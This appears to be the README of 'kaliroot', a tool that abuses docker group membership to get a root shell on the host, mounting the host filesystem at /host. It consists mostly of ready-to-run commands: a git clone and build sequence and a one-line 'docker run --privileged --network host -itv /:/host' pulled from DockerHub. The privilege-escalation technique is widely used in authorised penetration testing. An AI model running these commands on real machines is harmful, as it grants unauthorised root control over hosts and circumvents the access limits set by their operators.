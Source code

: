 # kaliroot

Abuses `docker` group privileges to gain a root level shell into the main operating system.

Exit the chroot shell, and you now have access to any Kali tools you need, and access the host root filesystem at `/host`.

## Install via Git

```sh
git clone https://github.com/phx/kaliroot
cd kaliroot
docker build -t kaliroot .
docker run --privileged --network host -itv /:/host kaliroot
```

## Install via DockerHub:
`docker run --privileged --network host -itv /:/host lphxl/kaliroot`
